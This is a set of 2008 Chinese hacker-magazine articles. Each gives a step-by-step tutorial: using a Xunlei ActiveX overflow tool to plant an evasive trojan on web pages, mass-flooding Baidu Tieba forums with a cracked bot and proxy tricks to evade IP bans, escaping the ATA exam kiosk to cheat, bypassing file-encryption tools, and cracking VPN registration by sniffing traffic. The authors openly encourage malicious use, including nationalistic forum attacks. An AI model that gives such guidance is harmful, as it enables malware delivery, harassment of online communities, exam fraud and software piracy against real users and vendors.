迅雷是目前一款非常流行的下载工具，注意哟，本文说的迅雷可不是那个web迅雷。迅雷的PPLAYER.DLL_1_WORK ActiveX控件（pplayer.dll组件版本号1.2.3.49，CLSID：F3E70CEA-956E-49CC-B444-73AFE593AD7F）中的FlvPlayerUrl函数没有正确的验证用户提供的参数，如果向其传递了超长参数就会触发缓冲区溢出，导致执行任意指令。远程攻击者可能利用此漏洞控制用户系统。迅雷官方公布的最新版本Thunder5.7.4.401依然受此漏洞的影响。使用这个漏洞来挂马非常简单，只是如果使用iframe的话，宽和高不能为0。

下面我来演示一下如何利用该漏洞，这个漏洞的危害性非常大，小菜们可别做坏事哦。解压xunleikankan.rar，这也是一个在CMD命令行下运行的工具，命令格式为xunlei_0day.exe [exe木马地址] [保存文件名称]。这和上面那个RealPlayer漏洞的利用几乎没什么区别的，将生成好的网页文件上传到空间中，比如上传后的地址为 http://www.52cmd.cn/xunlei.html，打开IE访问该地址来看看效果，同样溢出成功了，测试程序被运行了，如图4。该漏洞的解决方法就是直到官方网站下载补丁程序，直接更新就可以了。


图4

### 三，总结

在实际的使用中，只需要将测试程序更换成我们配置好的免杀木马就可以了。这两个漏洞都比较严重，请大家尽快升级软件或是打上补丁以免中招。（本文所涉及到的两个0DAY利用工具已收录到光盘中）

## 百度贴吧攻击战

梁天爽

在上期杂志上我为大家介绍了如何使用百度贴吧守护者来管理维护我们的百度贴吧，相信小编们不会满足于做到防范攻击，在此就为大家补上一偏爆吧攻击的文章，正所谓有攻亦有防嘛。

对于攻击来讲，最常用的工具就是“百度贴吧复仇者”了，但这款工具也由于太出名，所以总被百度封杀，网上能够找到的都是半自动的工具或是已经过期了的全自动的工具。为了满足大家的使用，我特意在“复仇者”的基础上进行了改良，改进了“黑客X档案专用baidu贴吧复仇者”，这款工具对原版的破解较为彻底，不需要注册或激活就可以使用，并且也不会过分引起百度的注意而招来封杀之祸。最主要的这是一款全自动的爆吧软件，也就是不用输入验证码，所以各位读者大可放心的使用（小编：我为百度感到悲哀，大家适当的用就好了，可千万不要大范围的使用哦）！

来看一下如何使用这个工具。运行后，直接按最大化，即可打开，这是我们要用到的工具界面，如图1。

由于界面做的比计划的大，下面一些按钮看不到，不过在系统的“任务栏属性”中，勾选“自动隐藏任务栏”就行了，如图2。

在设置界面中，默认时间间隔设置为“标准”10，“最大”设置为20，单位设置为“100”，这几个数值最好不要乱改，如图3。


图1

该帐号而使用登录了的下一个帐号。至少登录6个帐号是为了加快爆吧的速度，因为百度对于注册用户的发帖间隔时间要求是大于6秒，如果只使用一个帐号，那么就会不断尝试，1秒一次，6次才能成功发一个帖子，登录6个帐号就可以达到1秒发一个贴子了。在左侧中间位置的“标题/内容”框里输入爆吧所使用文章的标题，并在其右边“发送文本”框中输入要发贴子的内容，如图4。


图2

在中间上方的“目标贴吧名”中输入想要爆的吧，我们就以“日本之家”为例，然后点击右边的“获取信息”以验证输入是否正确，在右边的状态栏中提示“获取”就证明填写正确，如图5。


图3

在左上角的登录框输入用户名，建议至少注册6个百度号或更多，都登录上，并且勾上帐号列表下面的“去被封帐号”和“循环”选项。这样在爆吧时如果帐号被封，软件就会自动跳过


图4

# 傻瓜黑客

2008 合订本上卷

然后点击最下面的“连续发帖”，工具就开始自动爆吧了，在状态栏中会有很详细的动作提示，如图6。

最小化后，工具就会在右上角有一个半透明的信息框，左面数字是已发送的次数，右边数字是成功的次数。就这样，过5分钟后再来看效果，第一页都是我发的帖子，如图7，爽吧！


图5


图6

一般吧主都会封用户而很少有封IP的，倘若封IP的话可就是许多爆吧者的噩梦了，我再教大家几个免封IP的方法：电信（也就是ADSL）用户只要断开连接再连接IP就会自动换了（小编：如果你申请了IP绑定的话此方法无效），网通宽带（不是网通ADSL）换IP的方法比较麻烦，在爆吧之前要使用代理（我们可以从http://www.pass-e.com/proxy/寻找到代理服务器），使用代理服务器的方法是打开IE浏览器，选择“工具”->“Internet选项”->“连接”->“设置”，勾选上“对此连接使用代理服务器”，然后填上代理服务器的IP地址和端口。回到刚才的“连接”窗口，选择“局域网设置”，选择“为LAN使用代理服务器”，填上代理服务器的地址和端口，点击“确定”就可以了。如果IP被封的话换个代理就可以解决了。

关于爆吧，我特别要强调的是：我们本着“爱国护国”的思想，只爆一些崇洋媚外不爱国、亲日的相关贴吧，其他的吧主大可放心，我们不会打扰，也算是为维护绿色网络环境尽了一份力，使祖国下一代免受不良思想的影响。相信大家学了本文，也能继承这一爆吧思想，组建自己庞大的爆吧军团，加入到爆吧大军之中。

（文章中涉及到的工具黑客X档案专用百度贴吧复仇者已经收录在光盘中）

| 状态信息 | 状态 |
|---|---|
| 打开帖子页面 | 成功 |
| 每天发贴页 | 失败 |
| 每天发贴页 | 成功 |
| 提交发贴页 | 成功 |
| 打开帖子页面 | 速度太快 |
| 每天发贴页 | 成功 |
| 提交发贴页 | 速度太快 |
| 打开帖子页面 | 成功 |
| 每天发贴页 | 成功 |
| 提交发贴页 | 速度太快 |

| 大家好！抵制日货，从我做起！ | 梁天爽 | 19:16 | 梁天爽 |
|---|---|---|---|
| 您好 | 梁天爽 | 19:16 | 梁天爽 |
| 大家好！抵制日货，从我做起！ | 梁天爽 | 19:16 | 梁天爽 |
| 劳累 | 梁天爽 | 19:16 | 梁天爽 |
| 大家好！抵制日货，从我做起！ | 梁天爽 | 19:15 | 梁天爽 |
| 遵宝 | 梁天爽 | 19:15 | 梁天爽 |
| 大家好！抵制日货，从我做起！ | 梁天爽 | 19:15 | 梁天爽 |
| 咖啡 | 梁天爽 | 19:15 | 梁天爽 |
| 大家好！抵制日货，从我做起！ | 梁天爽 | 19:15 | 梁天爽 |
| 继续 | 梁天爽 | 19:15 | 梁天爽 |
| 大家好！抵制日货，从我做起！ | 梁天爽 | 19:14 | 梁天爽 |
| 怒视 | 梁天爽 | 19:14 | 梁天爽 |
| 大家好！抵制日货，从我做起！ | 梁天爽 | 19:14 | 梁天爽 |
| 陈诺 | 梁天爽 | 19:14 | 梁天爽 |
| 大家好！抵制日货，从我做起！ | 梁天爽 | 19:14 | 梁天爽 |

图7

## 菜鸟之“垃圾桶”里挖宝贝

Fetb000k

记得N年前，我曾听说有一个叫作“UUme FLV Spy”的软件可以帮我们下载在线播放的视频。那时我不禁感叹道——这个小东西可真是神奇呀！我又记得在N年前，黑客X档案杂志上曾刊登了一篇怎样从“网页源代码”中找出视频或音乐文件下载地址的“技术”文章。我又不禁感叹——黑客们的技术可真是了不起呀！毕竟当时我还只是一个刚入门的小菜，经过几年的学习，我已经不再是当初那个啥也不会的鸟蛋了，我也要教各位一个“很菜”的方法来下载在线播放的音乐和视频。该方法不需要多高深的技术，不需要使用工具，也不需要查看源代码，不用……（此处省略N个条件）。

我们平时几乎都是在土豆网、优酷网等一些大型的视频网站上在线观看视频，原因是这些网站的缓冲速度快，不卡，视频品质好，清晰。为什么这些视频能够在我们的电脑上播放？就是因为视频文件经过缓冲已经保存在我们本地的电脑上了！好了，既然菜菜们已经清楚的知道了，那么我们就按照如下的步骤去下载这些在线播放的视频。

一、随便打开一个观看视频的网站，选择一个视频进行播放，等着视频进行缓冲，如图1。


图1

二、等到那条缓冲进度条“冲”到最尾（图2），一定要全部缓冲才行，否则那个文件会不完全！


图2

三、接着我们就可以去“垃圾桶”里挖宝贝了！那么“垃圾桶”在哪里呢？如果还有读者不知道的话，就打开IE，在上方的菜单栏选择“工具”——“Internet选项”，点击“Internet临时文件”中的“设置”（图3），就会弹出设置窗口，再点击一下其中的“查看文件”按钮（图4），就可以看到“垃圾桶”了（小编：其实也就是IE临时缓存文件夹，用来缓存访问过的一些网页文件，可以更改其位置。


图3


图4


## 2008 合订本上卷
傻瓜黑客

件，包括图片、程序、网页等）。

四、我们要做的就是 从垃圾桶里找出它们。要找出它们就要用到“搜索”功能，因为有时候“临时文件夹”里会有上千个文件，文件数目的多少根据你浏览网页的多少来决定。点击资源管理器上面的那个“搜索”按钮，然后选择“所有文件和文件夹”，接着资源管理器就会自动定位“临时文件夹”这个搜索范围。搜索时该怎么输入文件名呢？了解批处理的菜菜们都应该知道“*”这个符号是系统命令里的通配符，可以代表所有字符。在这儿就可以用到它了——输入“*.flv”，就可以搜索所有以“.flv”为扩展名的文件了，当然如果视频网站的视频是其它格式的话更改一下相应的扩展名就可以了，如图5。需要注意一点，搜索哪一种文件就要看播放视频所用的网页插件是哪一种。通常在线播放视频用的播放插件是Flash9插件，因此可以知道那个视频的扩展名是flv。要是遇上Real播放插件，就应该输入“*.rmvb”或者“*.rm”。在线播放的音乐和视频有些是使用Media Player播放插件的，视频文件则搜索“*.wmv”，音乐文件则搜索“*.mp3”。


五、由于下载的视频的名字是别人用来管理的“编码”格式，帮它改名就得看你的眼睛了（图6）。不知道有没有谁有兴趣想看看那个视频呢？如图7所示就是视频的一张截图，你可别告诉我不知道那是什么哦，不然那可真该打了（小编：因为视频文件在当文件夹选项设置为缩略图显示时一般会显示视频的第一个图象）！


学到了这个方法是不是很过瘾呢，既不用工具，又不用太多知识，随时随地 对视频进行“掠夺”。不过，别高兴得太早了。由于“Internet 临时文件”是一个系统级文件夹，因此受到系统的保护，从里面把文件取出来只能一个个的取，一次取多个文件的话就会出现“无法读源磁盘”的提示。最后还要注意安全第一，从“垃圾箱”里挖完宝贝后还是要顾上安全的——及时倒垃圾！

## X文件锁真的安全吗？

朋友给我推荐了一款Word文件的加密软件，名字叫Unnoo Document Protector（也就是X文件锁了），使用了一下发现该软件也并没有想象中的那么强大，先使用这款软件加密一个Word文档，设置密码为123，阅读次数为3次，如图1。
可以看到，设置成功，保存所作的修改后会出现一个名为jiami.und的文件，使用自带的查看软件打开，如图2。
确实打开了，单击右键，发现有一闪而过的菜单，看来是被锁住了，后来通过软件SPY4WIN（探测和获取窗口信息）发现了源代码，看来也不过如此嘛（图3）。


总体来说，这个软件是将Word文件转换成*.mht格式，加密后保存为und格式，查看器就是一个exe文件，内嵌一个WebBrowser，用于打开这个und格式。那么我们完全可以通过找到mht在磁盘上的缓存位置来破解这个软件。
经过测试，我发现这个文件是保存在C:\Windows\undat\目录下的，使用资源管理器访问会出现假死的情况。使用ICESWord结束进程后打开文件就可以看到加密过的文件了，并不是非常困难。
由此可见，所谓的强悍软件也并不是不可攻破的，只要我们有足够的耐心，并仔细的去思考，就一定能够战胜它，这也同时验证了一句话：没有绝对的安全！

（本文所涉及到的SPY4WIN已收录到光盘中）

## 解开高强度文件夹加密大师里的“秘密”

冰sugar（朱巨源）

我们社团的一学弟拿了一个高强度文件夹加密大师给社长，说是一个加密文件夹很好的东西，可以把私藏的物品存放在文件夹中然后再给文件夹加密。处于好奇我也就过去看了看。他又说，这是他花了好长时间才找到的一个不错的东西，还说网络上没有比这个更好的加密文件夹的软件了。我心想，不就是一个加密文件夹的软件而已哪有这么厉害吗？正好社长的笔记本电脑里有一个加密的文件夹使我颇感兴趣，因为这个文件夹里存放的正是我们这次要举行的第二届计算机大赛的资料，我相信里面有此次比赛的题目。所以我决定研究一下，就偷偷把社长的那个加密的文件夹拷了一份到我的电脑里，然后又把所谓的“高强度文件夹加密大师”也拷了一份下来。回到家后我迅速打开电脑，打开拷回来的高强度文件夹加密大师，进入了安装界面（图1），接下来就是傻瓜式的“下一步”操作了。

Desktop.ini是一个配置文件，因此直觉告诉我加密后的文件肯定是藏在Thumbs.dn里的。随手双击打开它，发现里面什么都没有，因为它只是一个打印机任务。难道我们的文件不翼而飞了？我看了看它的属性“大小：16.0 KB (16,384 字节) 占用空间：16.0 KB (16,384 字节)”，从文件大小也能够猜测文件应该就在里面。为了证实我的猜测，来做一下实验。我们使用加密大师加密一个较大的文件，如果Thumbs.dn里面的大小变得跟我们加密前的文件大小差不多，那么我们的猜测就成立。在硬盘里面搜索了一下，找到了一个1.rm的文件（图4）。


图 1

安装好后，在我们的文件夹的右键就多了一个“高强度加密”选项，这个就是加密大师的杰作了。新建一个文件夹，在文件夹里新建一个文本文件，然后在文件夹里加点内容，接着加密文件夹，密码为1（图2）。


图 4

进行加密后的文件信息如图5所示，这证实了我的猜测，可以把心思全花在Thumbs.dn这个文件上了。


图 2

加密完成后会看到只有“解密加密.exe”这个新生成的文件，其它的都被隐藏了，后来经过我的测试，发现“解密加密.exe”只是修改了系统文件设置，就是相当于把系统文件给隐藏了。而我们加密后的文件就会被当作系统文件隐藏换成另外的打开方式。首先，打开我的电脑，选择“工具”->“文件夹选项”->“查看”->勾选上“显示所有文件和文件夹”，取消掉“隐藏受保护操作系统的文件”和“隐藏已知文件扩展名”，这样就可以显示加密大师所隐藏的文件，也就是我们所加密的文件了。现在打开我们的文件夹看看，多出了两个文件（图3）。


图 5

为了更好的在Thumbs.dn上做实验，我又创建了一个文件夹，把Thumbs.dn拷到那个文件夹里。首先让我感到奇怪的是这个文件夹的后缀，我修改了这个文件夹的后缀试图看看会有什么变化，但以失败告终。后来我又想到，这个软件是否也有自己的加密方式，我们能否利用它的加密方式来进行解密，这样来恢复我们需要的文件。我们来假设一下它的“解密加密.exe”的运行逻辑：首先进行搜索本文件夹里有没有它原先加密过的文件，如果没有加密过的文件它就会产生一个Thumbs.dn的文件（我已经测试过了desktop.ini文件没什么作用，因此验证是否加密的文件应该就是thumbs.dn，里面藏着一个验证密码文件和我们的源文件），然后提示我们输入加密的密码，而如果已经有加密文件的话，它就会提示我们输入解密的密码。如果真是这样的话，那我们怎样提取里面的文件呢？这就要请出RAR了，把Thumbs.dn文件进行压缩。因为Thumbs.dn是一个文件夹，它不肯让我们直接打开，这就得借助RAR的打开功能了，压缩完后直接打开压缩包，进入Thumbs.dn文件夹，这时候你可以发现其中有四个文件（图6），1.mem就是我们的源文件，解压出来后其它的三个文件都可以使用记事本打开（图7）。

我们已经知道1.mem就是我们的源文件且是加密过的文件，把这个文件与解密加密.exe单独放在同一个文件夹下，如果显示要求输入密码再次加密，然后再进行解密，是否能得到我们需要的文件也就是源文件呢（注：这时直接打开1.mem文件，它会要求我们输入解密的密码，再进行RAR的压缩、解压也是行不通的）？把两个文件放在单独的文件夹里运行加密大师，跟我们预料的结果一样，它要求请输入加密的密码，然后再解开密码，这时候加密大师会有两次的出错（图8，图9）。


图 3

# 2008 合订本上卷 傻瓜黑客


经过我反复的实验，得出了以下结论：1. mem.es为源文件1，2. mem.es为源文件2，依此类推。虽然在我们解开的过程中损坏了文件名，但是这个影响并不是很大，只要不破坏到里面的数据就行了。使用记事本打开.mem.es就可以看到我们之前的内容了。可能会有读者要问，如果存放的不是文本文件，怎样得出它是什么类型的文件呢？其实你只要使用记事本打开它，里面就会有相关的提示了。


还是以刚才的1.rm进行讲解，我们已经把加密后的文件解开了，现在使用记事本打开，就可以找到文件头了（图11）。


由于提示的错误我们不用去管，直接关掉出错信息，再运行解密加密.exe，按照提示输入加密密码，然后再解密，这次的解密就不会出错了，而且解密完的文件就是源文件。我们看看加密前的源文件与加密后解开的源文件的大小并进行比较（图10）。


因此，该软件的这种另类的解密过程并不会破坏原来的文件，这次对于高强度文件夹加密大师的破解也宣告成功了。
（文章中涉及到的工具高强度文件加密大师已经收录在光盘中）


## 轻松突破ATA考试认证系统的限制

这几天学校组织微软认证考试，使用的是ATA考试认证系统。我刚开还不以为然，要同学整理好资料后存入U盘。结果一插入U盘我傻眼了，根本就不让我使用资源管理器，只能在里面乖乖的选择你的答案，其它的事情想都别想，如图1。

我浏览了一遍题目，然后单击选题，在题目序号那里居然还可以输入些什么。我便随便调出了一种输入法，这学校也真是的，连智能ABC输入法都没有，我只好选择了“中文（简体）-全拼”（图2），打开帮助说明（图3），发现帮助文件没有被它屏蔽，可以输入跳转的地方，这个就像早期的3389输入法漏洞一样（图4）。


我在里面输入了file:///C:/，意思也就是打开C盘（图5）。越来越有意思了，我马上插上U盘，顺利的打开了我的U盘。
不过又发现了一个问题，双击进入文件夹居然没有反应，于是我只好改用绝对路径，呵呵，这回顺利的打开了。当我满怀信心的运行参考资料时发现根本打不开（打开的程序会被ATA考试系统屏蔽掉），就这样郁闷的考试结束了。

看着时间一分一秒的过去心里真不是滋味啊！现成的资料用不上，那些拿着书本的同学肯定偷着乐呢，这回傻眼了吧！

回到寝室后我一直搞不明白为什么会这样，既然它能够把我们运行的程序给屏蔽掉，而不是真正的关闭掉，那么我们是否可以找一个能够“置顶”的程序呢？一次偶然的发现证实了我的这个猜想，打开腾讯TT，在地址栏中调出输入法，然后选择帮助信息。我们点里面的任何网页，帮助信息都是置顶的


# 傻瓜黑客

## 2008 合订本上卷


（图6）。原来是这样，这就证明了只要是能够置顶的程序都是可以在ATA考试认证系统中运行而且不会被屏蔽掉的。我找了好久终于找到了一个可以置顶的计算本，现在就可以把资料存放到记事本里去了。按Ctrl+F查找肯定比别人的手工查找要强吧（图7），赶快去行动吧！

（本文所涉及到的记事本已收录到光盘中）


## 轟爆吧？ 殉死吧！

### ——突破百度贴吧的封号限制

abbb1123

对于百度贴吧，相信许多朋友都经常上的吧，甚至有很多父子可能都已经当上吧主了。作为吧主，一个很头疼的问题就是防爆吧，虽然在黑客X档案上也曾经介绍过使用贴吧伴侣来进行批量删帖，但是顶住了爆吧者的这一次攻击，那他要是下次再来攻击该怎么办呢？我们也不可能每时每刻都守在贴吧里，来将爆吧者的ID封了吧！可是百度又实在有些不厚道，封ID最多只能封10天，10天后，重获自由的爆吧者又可以卷土重来了，那么……难道真的没有办法彻底消灭爆吧者吗？当然不是，其实在百度贴吧里永久封锁ID照样能实现的，具体方法如下。

第一步：在要封的ID旁点“封”字（图1），打开封号操作的窗口，在右边可以选择封号时间（图2），最多只能选择10天，先随便选一个时间，点“执行封锁”，然后就会弹出一个“操作成功”的窗口。这一步是正常的封号步骤，现在来看关键的第二步。


作者：abbb1123  2007-12-11 20:08  回复此发言  删除

110

第二步：在“操作成功”窗口的地址栏中找到“pn=n（n是你开始选的封号时间，我选的是3天，所以要找的就是pn=3）”（图3），将a修改成一个足够大的数字，比如100000000，然后按一下回车。这样，目标ID就可以被封100000000天了，现在来看一下效果（图4）。


最后，再来补充两点经验。
1、“操作成功”窗口的地址栏中有一大堆东西，对于眼力不好的父子来说找到“pn=”这几个字还是有点困难的。其实只要将地址栏中的所有内容复制到一个记事本里，然后使用记事本的查找功能（编辑 -> 查找），查找“pn=”，找到数字并修改好后直接全选上，再复制到地址栏就行了。
2、在改动数字a的时候，建议改为1000之类的数字，如果修改为诸如99999或123123之类的数字，可能会导致被封ID自动解封。
希望这个小方法可以帮助大家在维护贴吧的时候能帮上一点小忙，当然，切不可使用此方法恶意封人ID哦。

| 用户名 | 被封时间(天) | 操作人 | 操作时间 |
| --- | --- | --- | --- |
| aaaa123 | 100000000 | aaab123 | 2007年12月16日 10时 | 封 |

## 让你的Remote Administrator 随用随开

花的神明

在众多的远程控制软件中，Remote Administrator可谓是鼎鼎大名，在实际的网络管理中应用非常广泛，因此Remote Administrator也成了入侵者攻击的重点目标。因为在默认情况下，Remote Administrator没有设置连接密码，任何人都可以连接远程主机，即使设置了密码，如果密码设置的过于简单的话，也很容易被猜解出来。更何况现在还出现了很火的Radmin欺骗提权技术，入侵者只要向服务器上传ASP木马，就可以直接读取注册表中的“HKEY_LOCAL_MACHINE\SYSTEM\RAdmin\v2.0\Server\Parameters”，将“Parameter”中保存的加密散列提取出来，然后将其转换为十六进制数值，使用经过修改的Radmin客户端即可连接远程主机了。
针对Remote Administrator的安全威胁，除了设置复杂的密码外，最好的解决办法就是在自己需要使用的时候才开启Remote Administrator，使用完毕后立即关闭Remote Administrator，不给入侵者任何可乘之机。另一个办法就是利用Email Commander这款独特的软件，我们只需向预设的邮箱中发送一封特殊的邮件，即可轻松开启Remote Administrator。
将Email Commander安装到远程机上，当初次使用Email Commander时，在弹出的设置窗口中配置认证邮箱信息，这样Email Commander就可以只接收预设邮箱中的邮件，进而分析其中包含的邮件来执行对应的命令。在Email Commander配置窗口中点击“Configure Email Server Settings”按钮（图1）就会弹出Email服务器设置窗口了。在“POP Settings”栏中依次输入邮件接收服务器的地址、用户名和密码信息，在“Port”栏中可以更改端口号（默认为110），我们传送的控制邮件只能发送到该邮箱中。


在“SMTP Settings”栏中依次输入邮件发送服务器的地址、发信人地址、用户帐号和密码、端口号。勾选上“Use SSL”项，表示使用SSL加密邮箱。该SMTP设置用于发送确认邮件，然后我们点击“Save”按钮保存设置（图2）。


在Email Commander的配置窗口中点击邮箱添加按钮，在弹出对话框中输入许可的邮箱地址（图3），点击“Add”按钮就可以完成添加操作了（图4）。


Email Commander只对来自该地址的邮件进行分析处理，而忽略来自其它地址的邮件。在“Cjeck Email Interval”栏中可以更改检测邮箱的时间间隔（默认为30秒），设置好后点击“Save”按钮保存设置。当配置完成后，Email Commander即可处于激活状态，在屏幕的中央会出现其运行窗口（图5），当需要停止其运行时，点击其中的“Stopped”按钮即可。


如何远程开启Radmin呢？方法很简


# 傻瓜黑客

单，在任何邮件发送软件中撰写一封新邮件，当然必须使用经过认证的邮箱地址。在邮件主题栏中输入控制指令，例如输入“!radmin”表示激活Radmin，邮件的内容可以为空，注意应该使用经过认证的Email地址发送邮件。将该邮件发送到预设的邮箱中后，经过预设的时间间隔，Email Commander即可从预设的邮箱中接收到该封邮件，Email Commander经过认证处理后，确认是我们发送的邮件，就会读取邮件主题，根据“!radmin”指令，就会自动启动远程主机中的Radmin了。这样，我们稍后就可以启动Radmin客户端连接工具来连接远程主机了。当使用完Radmin后，可以在其提供的Telnet中执行“r_server.exe /stop”命令，就可以停止Radmin的运行了。以后需要启动Radmin时，再次发送上述控制邮件即可。当然，在Email Commander中还提供了其它的控制指令，包括“!prepare”（将收取邮件的间隔增加10秒），“!stopprepare”（将收取邮件的间隔设置为预设值），“!interval [interval]”（将收取邮件的间隔设置为预设值），“!shutdown computer”（关闭远程机），“!turnoff”（关闭Email Commander），“!alive”（给发进人返回确认邮件）等。

（本文所涉及到的Email Commander已收录到光盘中）


## 菜鸟来搞定网通的流氓广告

txtxbg

这天我像往常一样打开http://www.126.com，想登录一下126邮箱，却突然发现屏幕右下角跳出了一个广告窗口，如图1。接着电脑就卡的不行了，调出任务管理器一看，内存使用一下子从原来的300多M窜到了近600M。我暗叫一声不好，中招了。

设定的要附加广告的将用户请求的网站信息连同广告一同返回给用户的浏览器，不符合设定的只把用户请求的网站信息返回给用户。从原理可以看出，问题出在了DNS解析服务器上，而DNS解析服务器应该是由ISP（我这里山东网通）管理的，所以我怀疑是网通耍流氓。通过DNS服务器向访问特定网址的用户推送广告，这一招太毒了，假如有人入侵了那台DNS服务器并把广告换成了网马，后果就太严重了，要知道可能好几个城市的网通用户都使用同一台DNS服务器呢。


既然知道了问题是出在DNS服务器上，那我们换台没有被做手脚的DNS服务器不就行了吗。说干就干，在命令行下输入命令ipconfig -all，如图3。

图 1

马上结束IE的进程，看看底是怎么了，中网马了？一想到网马，我就有些害怕，尽管我的杀毒软件的监控全开着，防火墙也开着呢，但也不敢排除有人使用未公布的0day来挂马。我使用卡巴、江民、瑞星扫描了一下system32目录，都没有发现病毒，又手工搜索了一下当天生成的新文件，也没有发现什么可疑的文件。几乎可以排除本机中病毒或木马的可能。难道不是网马？我仔细想了想，认为判断为网马确实有些太武断了，都怪以前中网马中的太多了，一看到IE巨卡就认为是有网马。

网络与苹果广告劫持的原理


但是那个广告窗口总不至于无缘无故的出来吧，肯定是有原因的，只是我一时找不到原因而已。去华夏论坛发了个帖子说了下情况，很快就有人说可能是被ARP了，也有人说可能是ISP的广告推送。说起ARP，倒有些像，我访问别的网站都没事，只有在访问http://www.126.com时才有弹出广告，但貌似只有在内网ARP攻击才有效果，但我却是使用网通的ADSL上网的，不处在内网中。如果再排除ARP，那就只剩下ISP广告推送这一种可能了。要真是ISP广告推送的话还真不好弄，我在北方，使用的网通的固话，似乎只能使用网通的ADSL上网。

图 2

再来看看那个广告，看能不能有什么收获，为了以防万一，我提前打开了完全影子系统。仔细看看，广告上有个“青岛杰晟广告有限公司”，直接用百度搜索了一下，很顺利的找到了那个公司的网站，原来是一家从事互联网广告业务的公司，当看到他的“通路广告”业务时，我觉得我电脑的问题跟它有很大的关系，先来看一下对方的工作原理图，如图2。


图 3

```
PPP adapter 123:

        Connection-specific DNS Suffix  . :
        Description . . . . . . . . . . . : WAN (PPP/SLIP) Interface
        Physical Address. . . . . . . . . : 00-53-45-00-00-00
        Dhcp Enabled. . . . . . . . . . . : No
        IP Address. . . . . . . . . . . . : 60.215.*.*
        Subnet Mask . . . . . . . . . . . : 255.255.255.255
        Default Gateway . . . . . . . . . : 60.215.*.*
        DNS Servers . . . . . . . . . . . : 202.*.134.68
                                            202.*.129.68
        NetBIOS over Tcpip. . . . . . . . : Disabled
```

用户输入目标网址 -> 用户的浏览请求信息传送至网通的DNS解析服务器 -> DNS解析服务器分析用户的请求网址，符合

我当前使用的是202.*.134.68这台DNS服务器（我用*替换了某些IP中的某些数字，下同），还有一个DNS服务器202.*.128.68，估计是备用的。把DNS服务器换成202.*.128.68试试，双击任务栏中的拨号连接的图标 -->属性 -->网络 -->Internet协议(TCP/IP)-->属性，选择“使用下面的DNS服务器地址”，在里面输入202.*.128.68再确定就OK了，如图4。

重新拨一下号连接上网，试着访问http://www.126.com，没有再弹出广告窗口，成功解决了问题。其实要是早知道是DNS服务器的问题，更换一个没问题的DNS服务器就解决了。

事后我猜测，很可能是网通跟那个什么广告公司共同搞的鬼，毕竟这种事见不得人，所以那台备用的DNS服务器是干净的。如果有用户投诉，就让你使用那个备用的，如果你不投诉，就只能自己想办法了。最后还有一点疑惑，就是既然不是网马在弹出广告的同时，电脑为什么会那么卡，希望有知道的朋友能够指教一下。


图4

## 魔兽世界 VPN 软件破解全攻略

Bink

在休息之余我喜欢玩玩魔兽世界这款全球顶级的网络游戏，最近初到北京，都知道北京这里的网络是以网通为主的，而我之前在上海则是以电信为主，所以游戏的ID也是在电信区中的，那么现在使用网通连接电信的服务器可就成了令人头疼的问题。如果使用代理，一来不安全，二来也不稳定，三来速度也不够快，所以我就想到了有个叫作VPN的东西，在网上查了查相关的资料及软件，结果是中了一堆的OnlineGame.PSW及Trojan.PSW，估摸有60来个吧，当然收获还是有的，其中就发现了几个专门针对魔兽世界而开发的VPN软件，“VPN123”这款软件就是其中的一个，大家可以到http://www.vpn123.com下载。但是几乎所有用着不错并且没有带木马的VPN软件都需要注册，我看好的这款VPN123也不例外，因此才有了本文的出现。

首先我们下载“VPN123.exe”到本地“D:\Soft\VPN123”，下载完成后双击“vpn123.exe”就可以运行并且看到界面了，如图1。

在账号和密码栏分别输入test、test，就可以使用测试帐户进行登录，但测试帐户限制了只能连接30分钟便会断开，5分钟后可再次连接，并且只能连接3次等限制。好了，先断开连接吧，我们还需要一个别的工具来帮忙呢，这个工具叫作MaaTec，是我无意间找到的，后来玩了下发现可以监视一些东西就终于派上了用场。先运行“intraStd_setup.exe”执行安装，虽然是英文界面，但一路“Next”就可以了。安装完毕后我们在“开始”->“程序”->


图2


图3


图1

10

# 傻瓜黑客

“MaaTec”中点击“Network Analyzer”运行该软件（图2），然后关掉你的QQ、讯雷等任何需要使用到网络的软件，也包括杀毒软件和防火墙之类的，再等待5分钟左右（因为有些软件有个释放过程，关闭后不会立刻断开网络，所以需要稍等一会儿）。

我们依次点击“File”->“New Packet List”，出现了网卡选择页面，如果你只有一块网卡，直接点击下面的“OK”，否则的话就选择你当前活动的网卡来进行监视，最后点击“OK”进入监视状态。这里要注意：如果你进入监视状态后右边窗口有数据在流动，那么请先点击软件最上面的大红色方块按钮停止监视，然后点击该按钮右边的垃圾箱按钮清理数据，检查你电脑上还有没有其它的网络软件在运行（小编：当然，计算机本身也会有规律的发送一些数据，那么也照此方法清理干净吧），确认一切OK后再点击红色方块左边的绿色启动按钮开始监视。此时运行VPN123（如果之前已经运行过了，那么在电脑右下方状态栏找到它，双击调出界面再次进行连接）并且进行连接，当程序进入网络选择界面时立刻切换到MaaTec，点击红色方块停止监视，此时我们发现MaaTec有反应了，如图3。

在记录列中有一个叫作“Type”的记录了数据的类型，当然记录的类型很多，有ARP、ICMP、HTTP之类，我们只看HTTP部分，一个个的看。当点击某条数据时你会发现下面左边的小窗口在显示着详细的数据信息，而右下角的窗口显示着16进制的原始代码（原始代码唯一的好处是这个软件无法分析汉字的16进制，所以直接把16进制显示出来以方便你借助其它软件来分析数据，当然本文中暂时不会用到它）。我们从上往下一个个HTTP的查看，当找到类似以下部分代码时，记得找个记事本将图中标记出来的部分记录下来，如图4。

记录完后再点击垃圾箱清理记录信息，然后重新点击绿色启动按钮开始监视，此时切换到VPN123界面选择你需要的加速方式及线路后点击确定，直到VPN123完全连接成功，然后切换回MaaTec界面，又会有很多数据？嗯，是的。现在我们就逐步来查看“Type”为HTTP的数据包，这样就少多了。很快就找到了如图5中所标示出来的信息，再次使用记事本记录下来，然后再继续往后找，你会发现有类似“/../..”的东西出现，如图6。

上图标示出来的部分其实就是中文信息，但是由于该软件是国外朋友编写的，所以无法解析中文而已，那么我们借助该软件破解就到此结束了，后面的部分将不会再用到它。好了，看看我们手里都有什么，对了，就是你记事本上记录的东西：


| Name | Total | Sent | Total Lost | Packets | Lost Packets |
|---|---|---|---|---|---|
| 1 | 0000001F8B | 5 | 1 |  |  |

| TCP - Transmission Control Protocol |  |
|---|---|
| Src Port: 3011 | 40(2) 84 3A F7 |
| Seq Number: 3154852094 | 40(2) 80 2C 91 60 |
| Ack Number: 1402043205 | 40(2) 9C 4D 5C 5E |
| Header Length: 20 bytes | 40(2) 50 18 |
| Flags: 0x018 (PSH, ACK) | 40(2) F7 FF |
| Window Size: 65535 | 40(2) 09 6D |
| Checksum: 0x95ce | 40(2) 00 00 |
| Urgent Pointer: 0 | 4003 47 45 54 20 |

| HTTP - HyperText Transfer Protocol |  |
|---|---|
